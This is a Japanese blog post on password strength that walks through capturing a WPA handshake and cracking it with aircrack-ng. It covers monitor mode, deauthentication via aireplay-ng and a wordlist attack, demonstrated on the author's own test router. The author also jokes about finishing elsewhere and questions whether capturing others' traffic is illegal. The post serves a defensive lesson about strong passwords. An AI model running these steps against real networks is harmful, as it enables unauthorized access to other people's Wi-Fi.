



# Password の重要性を再考。

## 大文字、小文字、数字、記号、何かと面倒なパスワード

最近パスワードを設定しようとすると 　　\
**"8 文字以上、大文字、小文字、数字、記号"** を混ぜてください。\
と[めんどくさい]{.under_line}ことになってます。\
**"推測できないワード"** とか、**"辞書にないワード"** というのも[めんどくさい]{.under_line}

どこかのサイトにログインしようとして数回ミスると\
**"アカウントロックしました"**\
となり、かなり[めんどくさい]{.under_line}なことになる。

とはいえ、**大文字、小文字、数字、記号** 混じりのパスワードは覚えにくし。\
**"パスワードを忘れた方はこちら"**というリンクをたどるはめになる。ほんと[めんどくさい]{.under_line}\
Google などは一度登録したパスワードは再生成できない。これがより記憶に混乱を招くこととなる。

なぜこのような複雑なパスワードを要求するのか？

**"不正ログインを防ぐため"** です。

という当たり前の言葉だけでなくそんなパスワードの重要性を "Wi-Fi" を題材に考え直してみます。

**検証環境**

- MAC
- VMware Fusion(MAC)上の "Parrot Security OS "
- USB Wi-Fi 子機(Parrot Security OS に接続)
- Aircrack-ng
- 自宅の Wi-Fi ルーター(テストアカウント作成)
- 焼肉食べたい気持ちを抑える精神力

## テスト用の Wi-Fi 環境を作る

Wi-Fi には大きくわけて？？？（この言い方がもう古い)

- WEP
- WPA

とがあります。WEP は今ではもう古いです。滅多にみかけません。\
というより WEP はかなり危険なんです。WEP に関してはここでは触れませんがある程度の通信量があれば簡単にパスワードが判明してしまいます。\
(通信量によりますが十数分から 30 分、YouTube とかみてたら一発です。)\
WEP 使ってる方は今すぐ Wi-Fi ルーターを買い換えましょう。

ということで **WPA**でテスト環境を作ります。（ちなみにうちのルーターはバッファローです。)

- SSID : wifi-test
- Password : yakiniku



MAC でみると


"Parrot Security OS"に Wi-Fi 子機を接続\
Amazon でポチったやつ　（動作はするが熱くなる)
<https://www.amazon.co.jp/gp/product/B005DU4XSM/ref=ppx_yo_dt_b_asin_title_o00_s00?ie=UTF8&psc=1>


"Parrot Security OS"から Wi-Fi 一覧をみてみる



電波をキャッチできてる模様

## 接続情報をキャプチャーするまで

ここでいうキャプチャーとは通信情報をファイルとして保存することです。
デモンストレーションなのでわかりやすように他の通信機器を wifi-test につないで Youtube でも再生さておきます。

"Parrot Security OS"からワイヤレスネットワークを確認

```bash
iwconfig
```



モニターモードへ変更

```bash
airmon-ng start wlan0
```

確認

```bash
iwconfig
```


wlan0mon を確認

通信内容をみる

```bash
airodump-ng wlan0mon
```


wifi-test で通信が行われているのを確認 (YouTube を再生してるため)

キャプチャー開始

```bash
airodump-ng -c 1 --bssid xx:xx:xx:xx:xx:xx -w wifi-test wlan0mon
```

- xx:xx:xx:xx:xx:xx は WiFi ルーターの MAC アドレス


ただただ・・・待つ・・・

このままでは何も起きません。
欲しいのは接続する瞬間の情報であり接続中の情報ではありません。
待つのが[めんどくさい]{.under_line}ので現在接続中の端末に妨害電波でも送り接続を遮断させ、すぐに再接続しようとすると思うのでその瞬間のデータをキャプチャーしてみる。

```bash
aireplay-ng -0 1 -a xx:xx:xx:xx:xx:xx-c yy:yy:yy:yy:yy:yy wlan0mon
```

- yy:yy:yy:yy:yy:yy は接続している機器のの MAC アドレス


接続情報をキャプチャーできたようです。
ここまでくればあとはパスワードを解析するだけです。
キャプチャーをやめ WiFi モニタリングもやめ、とっととその場を離れ近所のコーヒーショップで続きをやるのもいいでしょう。

## WI-Fi キャプチャーで思うこと

こういう行為は
**"決して人様に対して行ってはいけません"**
とよく目にしますが果たしてここまでの行為は？？？
不正アクセスしているわけでもないし、秘密情報を盗んだわけでもない。
ただその辺に飛んでいる電波をなんだかんだしただけ。。。
この行為だけで法律違反となるのだろうか。
賛美両論なんでしょうけど疑問に思うところであります。
法的にも[めんどくさい]{.under_line}ことなんでしょう。

## キャプチャーファイルを解析する

いよいよ解析してみます。
PasswordList を自分で生成するのもいいですが今回はネット上にある PasswordList を使ってみます。
今では日本語対応の PasswordList なるものが平気であります。ダウンロードフリーです。
有料版も存在します。どれだけのものか知りませんがハッキングしたてのアクティブである可能性が非常に高い PasswordList ということらしいです。

答えありきで PasswordList に今回の"yakiniku"が存在するかみてみます。

```bash
cat japanese_pass.txt | grep yakiniku
yakiniku
```

存在しているようです。

それでは解析

```bash
aircrack-ng wifi-test-xxx.cap -w japanes_pass.txt -b xx:xx:xx:xx:xx:xx
```


正しく解析できました。

PasswordList の行数をみてみます

```bash
wc -l japanese_pass.txt
113963
```

"yakiniku"が何行目かをみてみます。

```bash
cat japanese_pass.txt | grep -n yakiniku
107592:yakiniku
```

113963 行あるリストの 107592 行目にあるパスワードが 13 秒で解析されてます。
正直、もっと時間がかかるかと思い解析中にコンビニにお酒を買いに行こうと決めてたのですが瞬殺でした。

## まとめ

PasswordList は自分で作ることもできます。

- 小文字 8 桁
- 大文字小文字 8 桁
- 大文字小文字数字 10 桁
- 大文字小文字数字記号 12 桁

などなど。
はたまた、yakiniku*@@@
"yakiniku*" プラス 3 桁のリスト
とかいろいろできます。

- 大文字小文字数字記号 12 桁

を生成するとなると、とってもとっても時間がかかります。
逆に言えば解析するのにもとってもとっても時間がかかります。
かといって、"aaaaaA1!" だと比較的早い段階で解析されそうですよね。

[ブルートフォースアタック（総当たり攻撃）とは？そのやり方・実際にかかる時間・対策方法は？](https://cybersecurity-jp.com/cyber-terrorism/17426)
の表がとてもわかりやすいです。

- **理論上、パスワードは解析できてしまうということを忘れてはいけない。**
- **大文字、小文字、数字、記号、をランダムに配置し現実的に解析できなくする。**
  （解析する側をあきらめさせる）

そうなんです！
解析者の戦闘意欲をなくし諦めさせるパスワードを考えるのが大事なんです。
